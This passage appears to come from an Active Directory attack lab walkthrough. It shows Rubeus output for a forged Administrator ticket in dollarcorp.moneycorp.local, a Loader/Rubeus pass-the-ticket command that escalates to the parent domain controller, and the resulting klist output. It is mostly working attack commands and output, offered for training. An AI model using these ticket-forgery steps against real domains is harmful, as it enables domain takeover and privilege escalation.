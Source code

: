 ```
[*] Generated KERB-CRED
[*] Forged a TGT for 'Administrator🎭@dollarcorp.moneycorp.local🏛️'

[*] AuthTime       : 2/17/2025 5:41:25 AM
[*] StartTime      : 2/17/2025 5:41:25 AM
[*] EndTime        : 2/17/2025 3:41:25 PM
[*] RenewTill      : 2/24/2025 5:41:25 AM

[*] base64(ticket.kirbi):

doIGPjCCBjqgAwIBBaEDAgEWooIFCjCCBQZhggUCMIIE/qADAgEFoRwbGkRPTExBUkNPUlAuTU9ORVlDT1JQLkxPQ0FMoi8wLaADAgECoSYwJBsGa3JidGd0GxpET0xMQVJDT1JQLk1PTkVZQ09SUC5MT0NBTKOCBKYwggSioAMCARehAwIBA6KCBJQEggSQF8F+37aU/wEWHfF5oIOvgKc5g8856XA6ZX0iSyUKFkhHnCARuI...

[SNIP]
```

- **Leverage the Forged Ticket to Gain EA Access to the Parent DC**

Copy the base64 encoded ticket from above and use it in the following command.

`C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args asktgs /service:http/mcorp-dc.MONEYCORP.LOCAL /dc:mcorp-dc.MONEYCORP.LOCAL /ptt /ticket:doIGPjCCBjqgAwIBBaEDAgEWooIFCjCCBQZhggUCMIIE/qADAgEFoRwbGkRPTExBUkNPUlAuTU9ORVlDT1JQLkxPQ0FMoi8wLaADAgECoSYwJBsGa3JidGd0GxpET0xMQVJDT1JQLk1PTkVZQ09SUC5MT0NBTKOCBKYwggSioAMCARehAwIBA6KCBJQEggSQF8F+37aU/wEWHfF5oIOvgKc5g8856XA6ZX0iSyUKFkhHnCARuI...`:
```
[SNIP]

[*] Action: Ask TGS📌

[*] Requesting default etypes (RC4_HMAC, AES[128/256]_CTS_HMAC_SHA1) for the service ticket
[*] Building TGS-REQ request for: 'http/mcorp-dc.MONEYCORP.LOCAL'
[*] Using domain controller: mcorp-dc.MONEYCORP.LOCAL (172.16.1.1)
[+] TGS request successful!
[+] Ticket successfully imported!🎟️
[*] base64(ticket.kirbi):

[SNIP]

  ServiceName              :  http📌/mcorp-dc.MONEYCORP.LOCAL
  ServiceRealm             :  MONEYCORP.LOCAL🏛️
  UserName                 :  Administrator🎭 (NT_PRINCIPAL)
  UserRealm                :  DOLLARCORP.MONEYCORP.LOCAL🏛️
  StartTime                :  2/17/2025 5:43:28 AM
  EndTime                  :  2/17/2025 3:41:25 PM
  RenewTill                :  2/24/2025 5:41:25 AM
  Flags                    :  name_canonicalize, ok_as_delegate, pre_authent, renewable, forwardable
  KeyType                  :  aes256_cts_hmac_sha1
  Base64(key)              :  y+QNZ+j2Fg4W/dU+AXPehDw/MCQxVifb0NeFF/pcTbM=
```

`klist`:
```
Current LogonId is 0:0x38c010

Cached Tickets: (1)

#0>     Client: Administrator🎭 @ DOLLARCORP.MONEYCORP.LOCAL🏛️
        Server: http📌/mcorp-dc.MONEYCORP.LOCAL @ MONEYCORP.LOCAL🏛️
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40a50000 -> forwardable renewable pre_authent ok_as_delegate name_canonicalize
        Start Time: 2/17/2025 5:43:28 (local)
        End Time:   2/17/2025 15:41:25 (local)
```